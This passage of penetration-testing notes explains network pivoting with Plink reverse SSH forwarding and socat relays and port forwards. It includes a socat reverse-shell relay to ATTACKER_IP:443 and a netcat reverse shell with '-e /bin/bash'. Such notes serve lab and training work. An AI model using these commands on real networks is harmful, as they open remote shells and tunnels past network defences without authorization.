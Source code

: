 - **Plink Reverse Forwarding Example:**

Nearly identical to an SSH reverse forward. The `cmd.exe /c echo y` is used for non-interactive shells, in order to auto-accept the host key fingerprint.

```python
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 attacker@172.16.0.20 -i OUTPUT_KEY.ppk -N
```

**NOTE:** Keys generated with `ssh-keygen` need to be converted using `puttygen`
- `puttygen ORIGINAL_KEYFILE -o OUTPUT_KEY.ppk`

**NOTE:** Find the latest version of **Plink** [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

### Socat
---
Could not be used to set up a full proxy into a target network.

Good for port forwarding and **relay**, for example:
- When a target host cannot reach the attacker's box, socat could be used as a relay on an already compromised machine. Socat would listen for a connection from the unreachable target and forward the connection back to the attacking box.

#### Socat Reverse Shell Relay

Create a relay listener on port `8000` of the target machine and connect back (relay) to  `ATTACKER_IP:443`.

```python
./socat tcp-l:8000 tcp:ATTACKER_IP:443 &
```

After the relay has been set, a rev-shell (e.g netcat `nc 172.0.0.1 8000 -e /bin/bash`) could connect to the attacker.

#### Socat Prot Forwarding - Easy

Listen on port `33060` on the compromised box and forward traffic comming from the attacker to the target `172.16.0.10:3306` host.

- `fork` and `reuseaddr` allow multiple connections to use the same port forward.

```python
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

#### Socat Prot Forwarding - Quiet

More complex, but doesn't require opening up a port on the compromised host.

- Open ports `8001` and `8000` on the attacker's box to create a local relay. What goes into one port, comes out of the other.

```python
./socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

- On the compromised box, create a connection between the attacker's box at `172.16.0.20:8001` and the target box at `172.16.0.10:80`.
